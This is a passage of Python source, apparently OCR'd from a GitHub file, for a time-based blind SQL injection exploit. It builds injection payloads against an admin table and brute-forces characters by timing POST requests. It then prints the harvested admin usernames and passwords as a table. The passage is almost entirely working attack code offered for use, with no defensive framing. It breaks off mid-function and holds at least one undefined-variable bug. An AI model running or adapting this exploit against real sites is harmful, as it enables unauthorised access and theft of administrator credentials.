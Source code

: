 ```python
    sqli += str(table)+' WHERE adminId='
    sqli += str(userid)+'; -- kamahamaha'
    return sqli

chars = [ 'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o',
          'p','q','r','s','t','u','v','w','x','y','z','A','B','C','D',
          'E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S',
          'T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7',
          '8','9','@','#']

def postRequest(URL,sqliReq,char,position,pxy):
    sqliURL = URL
    params = {"check":1,"id":sqliReq}
    if pxy:
        req = requests.post(url=sqliURL, data=params, verify=False, proxies=proxies,timeout=10)
    else:
        req = requests.post(url=sqliURL, data=params, verify=False, timeout=10)
    #print("{} : {}".format(char,req.elapsed.total_seconds()))
    return req.elapsed.total_seconds()

def theHarvester(target,CHARS,url,pxy):
    #print("Retrieving: {} {} {}".format(target['table'],target['column'],target['id']))
    position = 1
    theHarvest = ""
    while position < 8:
        for char in CHARS:
            sqliReq = sqliPayload(char,position,target['id'],target['column'],target['table'])
            if postRequest(url,sqliReq,char,position,pxy) > 1:
                theHarvest += char
                break;
        position += 1
    return theHarvest

class userObj:
    def __init__(self,username,password):
        self.username = username
        self.password = password

class tableSize:
    def __init__(self,sizeU,sizeP):
        self.sizeU = sizeU
        self.sizeP = sizeP
        self.uTitle = "Admin Usernames"+" "*(sizeU-15)+BR+" "+ST
        self.pTitle = "Admin Passwords"+" "*(sizeP-15)+BR+" "+ST
    def printHeader(self):
        width = self.sizeU+self.sizeP+3
        print(BR+" "*width+ST)
        print(self.uTitle,self.pTitle)
        print(BR+" "*width+ST)

def printTableRow(user,size):
    username = user.username
    unLen = len(username)
    if unLen < size.sizeU:
        username = username+(" "*(size.sizeU - unLen))
    else:
        name = name[:size.sizeU]
    username += BR+" "+ST
    password = user.password
    pLen = len(password)
    if pLen < size.sizeP:
        password = password+(" "*(size.sizeP - pLen))
    else:
```